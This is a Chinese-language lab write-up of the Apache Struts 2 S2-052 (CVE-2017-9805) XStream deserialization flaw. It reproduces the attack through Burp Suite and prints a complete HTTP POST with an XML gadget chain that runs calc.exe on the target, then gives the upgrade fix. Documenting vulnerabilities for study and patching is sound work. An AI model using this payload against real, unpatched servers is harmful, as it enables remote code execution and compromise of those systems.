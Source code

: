 # S2-052

## 漏洞简介
Struts是Apache基金会的一个开源项目，Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的Model-View-Controller(MVC)设计模式的应用框架，是MVC经典设计模式中的一个经典产品。

Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-052，CVE编号CVE-2017-9805。

Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程访问。

## 影响范围

Struts 2.5 - Struts 2.5.12

不受影响的版本

Struts 2.5.13

## 漏洞分析

Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程访问。

## 漏洞复现

步骤1：开启代理，访问目标网站

开启Burp Suite和浏览器的代理功能(127.0.0.1:8090),然后在浏览器中输入目标地址，172.16.11.2:8080/struts2-rest-showcase/orders打开目标页面。

步骤2：抓取POST数据包

开启Burp Suite的抓包功能，然后在目标页面中随便选取一个ID进行编辑。

编辑的内容我们这里任意填写一些数据即可，同样也可以使用原来默认的内容。编辑完成之后点击Submit提交。

点击提交按钮之后，接着切换到Burp Suite，在proxy界面下看以看到抓取到的原始数据包，该界面下我们可以直接对数据包进行编辑。

步骤3：修改POST数据包

抓到数据包后，我们将当前数据包内容全选，然后使用如下数据包覆盖：

    POST /struts2-rest-showcase/orders/3/edit;jsessionid=F455F4577F3AC37C743B888B17C7A05E HTTP/1.1
    Host: 127.0.0.1:8080
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/xml
    Content-Length: 1659
    Referer: http://127.0.0.1:8080/orders/3/edit
    Cookie: JSESSIONID=F455F4577F3AC37C743B888B17C7A05E
    Connection: close
    Upgrade-Insecure-Requests: 1


    <map>
    <entry>
    <jdk.nashorn.internal.objects.NativeString>
    <flags>0</flags>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized>
    <opmode>0</opmode>
    <serviceIterator class="javax.imageio.spi.FilterIterator">
    <iter class="javax.imageio.spi.FilterIterator">
    <iter class="java.util.Collections$EmptyIterator"/>
    <next class="java.lang.ProcessBuilder"> <command><string>C:\Windows\System32\calc.exe </string></command> <redirectErrorStream>false</redirectErrorStream> </next> </iter>
     <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class>
    <name>start</name> <parameter-types/> </method> <name>foo</name> </filter>
    <next class="string">foo</next> </serviceIterator> <lock/> </cipher>
    <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    </entry>
    </map>

修改完成之后，点击Intercept is on按钮放过数据包。

如图，已经成功的执行了命令，弹出了计算器

## 漏洞修复

通过本次实验，我们切身体会到了Struts2 052漏洞危害的严重性，简单的几条命令，就可以轻松拿到目标网站的shell，利用起来门槛低，危害大。网站的管理者可以将Struts 2的版本升级为Struts 2.5.13，即可防御此次漏洞。
